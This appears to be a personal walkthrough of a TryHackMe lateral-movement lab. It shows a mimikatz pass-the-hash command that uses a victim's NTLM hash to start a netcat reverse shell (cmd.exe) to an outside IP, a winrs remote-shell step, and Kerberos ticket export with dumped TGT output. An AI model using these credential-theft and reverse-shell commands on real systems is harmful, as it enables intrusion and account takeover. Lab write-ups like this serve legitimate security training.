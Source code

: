 ![](/assets/img/Pasted image 20230208213415.png)

	8. Using the NTLM hash of the victim user, we access a service which in this case is "C:\tools\nc64.exe" via Pass-the-Hash attack

```powershell
mimikatz # sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"C:\tools\nc64.exe -e cmd.exe 10.50.61.52 5555"
```

<u>Output</u>:

![](/assets/img/Pasted image 20230208214522.png)

<u>Received Shell</u>:

![](/assets/img/Pasted image 20230208214853.png)

			- Notice that there isn't a change in username.
			- This is because the only thing that changed is the Access Token which is t1_toby.beck's which basically creates a reverse shell on behalf of user t1_toby.beck.

	9. Using "Winrs.exe" to connect to a command prompt on THMIIS

```powershell
> winrs.exe -r:THMIIS.za.tryhackme.com cmd
```

			 - Seems like "Winrs.exe" is a builtin program.
			 - Winrs.exe == Implementation of Windows Remote System

![](/assets/img/Pasted image 20230208215156.png)

	10. Getting the flag:

![](/assets/img/Pasted image 20230208215401.png)


### Using Pass-The-`Ticket`

	1-4. Same steps as Pass-The-Hash
	5. Extract Kerberos Tickets in the system and our target is t1_toby.beck:

```powershell
mimikatz # sekurlsa::tickets /export
```

			- What should the Ticket Granting Ticket we are looking for should look like? 
			- Given the example, let's try the one with Service Name == 'krbtgt'.


<u>There are THREE TGTs I found in the output</u>:

`1st)`

```powershell
Group 2 - Ticket Granting Ticket
         [00000000]                                                             
           Start/End/MaxRenew: 2/9/2023 5:04:58 AM ; 2/9/2023 3:04:58 PM ; 2/16/2023 5:04:58 AM                                                                 
           Service Name (02) : krbtgt ; ZA.TRYHACKME.COM ; @ ZA.TRYHACKME.COM   
           Target Name  (02) : krbtgt ; ZA.TRYHACKME.COM ; @ ZA.TRYHACKME.COM   
           Client Name  (01) : THMJMP2$ ; @ ZA.TRYHACKME.COM ( ZA.TRYHACKME.COM )                                                                               
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;                                                            
           Session Key       : 0x00000012 - aes256_hmac                         
             b61218b21e4cf89edd7547508d5efe8b61a246c921454e6f073be8157d940d1e   
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        
[...]                                                                           
           * Saved to file [0;3e7]-2-0-40e10000-THMJMP2$@krbtgt-ZA.TRYHACKME.COM.kirbi ! 
```